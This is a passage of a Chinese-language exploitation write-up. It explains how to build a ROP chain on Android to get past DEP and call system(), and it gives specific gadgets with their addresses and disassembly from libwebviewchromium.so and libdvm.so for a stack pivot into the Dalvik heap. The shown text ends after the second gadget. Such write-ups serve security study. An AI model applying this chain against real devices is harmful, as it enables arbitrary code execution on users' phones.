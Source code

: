 # 0x02 ROP Chain

* * *

由于Android使用了DEP，因此Dalvik-heap上的内存不能用来执行，这就必须使用ROP技术，使PC跳转到一系列合法指令序列（Gadget），并由这些Gadget“拼凑”而成shellcode。这里我们将使用ROP Gadget调用system函数执行代码。

使用ROPGadget这个工具，在zygote加载的基础模块（如libc.so、libwebviewchromium.so、libdvm.so）上进行搜索，把arm code当做thumb code来搜索，可以增加更多的候选指令序列。

为了调用system函数，需要控制r0寄存器，指向我们预先布置的命令行字符串作为参数。这里需要使用Stack Pivot技术，将栈顶指针SP指向控制的Dalvik-heap堆中的数据，这将为控制PC寄存器、以及在栈上布置数据带来便利。利用

    
    
    ROPgadget --thumb --binary libwebviewchromium.so
    

可找到如下Gadget

## Gadget1

为Stack Pivot作准备

in libwebviewchromium.so

    
    
    70a93c:       682f            ldr     r7, [r5, #0]  #r5=STATIC_ADDRESS, r7=[STATIC_ADDRESS]=GADGET_BUFFER
    70a93e:       4628            mov     r0, r5       #r0=STATIC_ADDRESS
    70a940:       68b9            ldr     r1, [r7, #8] #r1=[GADGET_BUFFER+8]
    70a942:       4788            blx     r1
    

或者

    
    
    4fed02:       4628            mov     r0, r5           #r5 = STATIC_ADDRESS
    4fed04:       682f            ldr     r7, [r5, #0]     #r7 = [STATIC_ADDRESS] = GADGET_BUFFER
    4fed06:       f8d4 8048       ldr.w   r8, [r4, #72]   ; 0x48
    4fed0a:       68b9            ldr     r1, [r7, #8]     #r1 = [GADGET_BUFFER+8]
    4fed0c:       4788            blx     r1
    

因此，GADGET_BUFFER+8这个地址需要指向第二个Gadget

## Gadget2

Stack Pivot

in libdvm.so

    
    
    664c4:       f107 0708       add.w   r7, r7, #8   #r7=r7+8=GADGET_BUFFER+8
    664c8:       46bd            mov     sp, r7       #sp=GADGET_BUFFER+8
    664ca:       bdb0            pop     {r4, r5, r7, pc}
    # r4=[GADGET_BUFFER+8],r5=[GADGET_BUFFER+12],r7=[GADGET_BUFFER+16],pc=[GADGET_BUFFER+20], sp=GADGET_BUFFER+24
    